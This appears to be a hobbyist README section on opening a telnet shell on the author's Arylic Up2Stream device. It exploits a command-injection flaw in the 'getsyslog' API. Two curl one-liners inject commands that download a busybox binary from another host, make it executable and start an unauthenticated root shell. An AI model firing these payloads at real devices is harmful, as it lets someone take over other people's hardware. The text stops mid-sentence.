 # Enable telnetd
To enable telnetd on these devices, a security vulnerability had to be exploited. The first version on my devices was 4.2.8020 from 2020/02/20 (20th of Feb 2020) that still had a vulnerability in their code: internally a "sprintf" function was used to prepare a Linux CLI commands. That function was using an IP address as an input, but the input could be extended with ";" and additional commands to download and install a telnetd.

The command that has this vulnerability is "**_getsyslog_**", see https://developer.arylic.com/httpapi/#get-system-log and https://labs.withsecure.com/advisories/linkplay-firmware-wanlan-remote-code-execution. The command has an option to add an IP address from a slave device, e.g. "**_getsyslog:ip:10.1.1.90_**", so a CLI command is executed on the device to retrieve the system log from the slave device that includes the IP address. Instead of just having an IP address as a parameter, that CLI command can also include a ";" and a second CLI command. You do not even have to provide an IP address, but can append the ";" and second command directly after the ":ip:". 

The following code snippets are using the IP address 10.1.1.52 for my Arylic Up2Stream Pro v3 device and 10.1.1.22 for a web server running on my local MacBook. 
```
curl "http://10.1.1.52httpapi.asp?command=getsyslog:ip:;wget+-O+/tmp/busybox+-T+5+http://10.1.1.22/a31/busybox+-q;/bin/chmod+777+/tmp/busybox;/tmp/busybox+telnetd+-l/bin/ash";
```
The command above is executing the following commands on the device:
```
wget -O /tmp/busybox -T 5 http://10.1.1.22/a31/busybox -q;
/bin/chmod 777 /tmp/busybox;
/tmp/busybox telnetd -l/bin/ash "
```
The tool "busybox" is like a swiss army knife and combines a lot of CLI commands in a single binary file. That file was stripped down already in my version and does not include a telnetd anymore. Therefore you have to get a full version from somewhere. Fortunately 


```
curl "http://10.1.1.52httpapi.asp?command=getsyslog:ip:10.1.1.22/index.html;wget+-O+/tmp/busybox+-T+5+http://10.1.1.22/a31/busybox+-q;/bin/chmod+777+/tmp/busybox;/tmp/busybox+telnetd+-l/bin/ash+>+/tmp/web/cmd.out+2>+/tmp/web/cmd.err;";
```

